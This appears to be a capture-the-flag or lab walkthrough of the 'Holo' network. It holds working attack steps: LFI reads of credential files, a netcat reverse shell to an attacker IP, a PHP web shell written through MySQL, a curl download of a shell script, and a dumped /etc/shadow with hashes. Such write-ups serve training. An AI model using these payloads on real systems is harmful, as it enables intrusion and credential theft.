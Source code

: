 # Holo network
> Silver Garcia

## Enumeration
Discovering hosts:
```bash
sudo nmap -sV -sC -p- -v 10.200.95.0/24
Scanning 2 hosts [65535 ports/host]
Discovered open port 22/tcp on 10.200.95.250
Discovered open port 22/tcp on 10.200.95.33
Discovered open port 80/tcp on 10.200.95.33
Discovered open port 33060/tcp on 10.200.95.33
```

WordPress 5.5.3 running on 10.200.95.33:80

### Domain enumeration
**wfuzz**
```bash
wfuzz -u http://10.200.95.33 -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.holo.live" --hc 400 --hl 156
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.200.95.33/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000001:   200        155 L    1398 W     21405 Ch    "www"
000000024:   200        75 L     158 W      1845 Ch     "admin"                                               
000000019:   200        271 L    701 W      7515 Ch     "dev" 
```

`admin.holo.live/robots.txt` content:
```
User-agent: *
Disallow: /var/www/admin/db.php
Disallow: /var/www/admin/dashboard.php
Disallow: /var/www/admin/supersecretdir/creds.txt
```

`img.php` file on dev.holo.live is vulnerable to LFI:
```
http://dev.holo.live/img.php?file=/etc/passwd
```

Could read `creds.txt` file exploiting the LFI:
```
http://dev.holo.live/img.php?file=/var/www/admin/supersecretdir/creds.txt
```

Content:
```
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```

Got access to admin.holo.live using found credentials.

## Getting access L-SRV01
dashboard.php is vulnerable to RCE.
Getting a reverse shell:
1. Set listener and exploit RCE
Listener:
```bash
nc -lvnp 7777
```
```
http://admin.holo.live/dashboard.php?cmd=nc%20-e%20/bin/bash%2010.50.74.17%207777
```

### Enumeration
Create a living-of-the-land port scanner to scan default gateway:
```bash
#!/bin/bash
ports=(22 53 80 443 3306 8080 8443)
for port in ${ports[@]}; do
        timeout 1 bash -c "echo 'test' > /dev/tcp/192.168.100.1/$port && echo $port is open"
done
```
Result:
```
www-data@d0b5d3399e7c:/tmp$ ./scanner.sh
22 is open
bash: connect: Connection refused
bash: /dev/tcp/192.168.100.1/53: Connection refused
80 is open
bash: connect: Connection refused
bash: /dev/tcp/192.168.100.1/443: Connection refused
3306 is open
8080 is open
bash: connect: Connection refused
bash: /dev/tcp/192.168.100.1/8443: Connection refused
```

/var/www/admin/db_connect.php file content:
```
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```


#### MySQL enumeration
Connection command
```bash
mysql -u admin -p -h 192.168.100.1
```

Databases
```
show databases;
+--------------------+
| Database           |
+--------------------+
| DashboardDB        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

Tables on DashboardDB
```
show tables;
+-----------------------+
| Tables_in_DashboardDB |
+-----------------------+
| users                 |
+-----------------------+
```

Content of users table
```
select * from users;
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
```

Got access using MySQL to create file on web server to get RCE
1. Create file
```bash
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php'
```
2. Download reverse shell file on L-SRV01
```bash
curl%20http%3A%2F%2F10.50.74.17%3A80%2Fshell-silver.sh%20-o%20shell-silver.sh
```
3. Set listener and execute file
```bash
curl http://192.168.100.1:8080/shell.php?cmd=./shell-silver.sh
```

With root privileges dumped /etc/shadow file.
```
root:$6$TvYo6Q8EXPuYD8w0$Yc.Ufe3ffMwRJLNroJuMvf5/Telga69RdVEvgWBC.FN5rs9vO0NeoKex4jIaxCyWNPTDtYfxWn.EM4OLxjndR1:18605:0:99999:7:::
daemon:*:18512:0:99999:7:::
bin:*:18512:0:99999:7:::
sys:*:18512:0:99999:7:::
sync:*:18512:0:99999:7:::
games:*:18512:0:99999:7:::
man:*:18512:0:99999:7:::
lp:*:18512:0:99999:7:::
mail:*:18512:0:99999:7:::
news:*:18512:0:99999:7:::
uucp:*:18512:0:99999:7:::
proxy:*:18512:0:99999:7:::
www-data:*:18512:0:99999:7:::
backup:*:18512:0:99999:7:::
list:*:18512:0:99999:7:::
irc:*:18512:0:99999:7:::
gnats:*:18512:0:99999:7:::
nobody:*:18512:0:99999:7:::
systemd-network:*:18512:0:99999:7:::
systemd-resolve:*:18512:0:99999:7:::
systemd-timesync:*:18512:0:99999:7:::
messagebus:*:18512:0:99999:7:::
syslog:*:18512:0:99999:7:::
_apt:*:18512:0:99999:7:::
tss:*:18512:0:99999:7:::
uuidd:*:18512:0:99999:7:::
tcpdump:*:18512:0:99999:7:::
sshd:*:18512:0:99999:7:::
landscape:*:18512:0:99999:7:::
pollinate:*:18512:0:99999:7:::
ec2-instance-connect:!:18512:0:99999:7:::
systemd-coredump:!!:18566::::::
ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::
lxd:!:18566::::::
mysql:!:18566:0:99999:7:::
dnsmasq:*:18566:0:99999:7:::
linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```